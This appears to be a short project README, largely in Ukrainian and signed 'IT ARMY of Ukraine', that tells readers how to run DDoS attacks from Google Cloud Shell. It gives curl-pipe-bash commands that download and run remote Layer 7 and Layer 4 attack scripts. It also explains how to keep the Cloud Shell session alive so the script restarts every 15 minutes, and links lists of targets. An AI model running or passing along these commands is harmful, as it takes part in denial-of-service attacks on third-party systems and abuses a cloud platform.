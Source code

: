 # DDoS whith Google Cloud Shell 
# MHDDoS_proxy
# 
Making script for durable cloudshell session
#
# ТЕСТ
Команди для запуску атаки

по Layer7:

curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Test_L7m.sh | bash

по Layer4:

curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Test_L4.sh | bash
#
У GCloudShell https://shell.cloud.google.com/?fromcloudshell=true&show=terminal вмикаємо Ephemeral Mode (ставимо - "Завжди")
#
Налаштовано: перезапуск скрипту кожні 15 хв, метод атаки додається зі списку цілей, параметр -t вказано 1200

#
Списки з цілями

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4


#
#
IT ARMY of Ukraine

